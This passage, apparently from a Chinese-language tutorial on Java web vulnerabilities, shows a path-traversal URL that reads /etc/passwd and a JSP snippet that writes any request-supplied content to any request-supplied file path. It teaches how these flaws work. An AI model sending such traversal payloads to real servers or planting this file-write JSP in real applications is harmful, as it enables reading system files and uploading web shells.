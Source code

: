 ![alt text](img/javafileread.png){loading=lazy width=80%}  

若网站未对目录访问进行限制，攻击者可以通过路径穿越实现任意文件读取，例如`http://localhost:8080/?name=../../../../../etc/passwd`读取`/etc/passwd`文件内容。

### 任意文件写

???+ example

    ```jsp
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <%@ page import="java.io.File" %>
    <%@ page import="java.io.FileOutputStream" %>

    <%
        File file = new File(request.getParameter("f"));
        FileOutputStream fos = new FileOutputStream(file);
        fos.write(request.getParameter("c").getBytes());
        fos.flush();
        fos.close();

        out.println(file.getAbsoluteFile() + "\t" + file.exists());
    %>
    ```
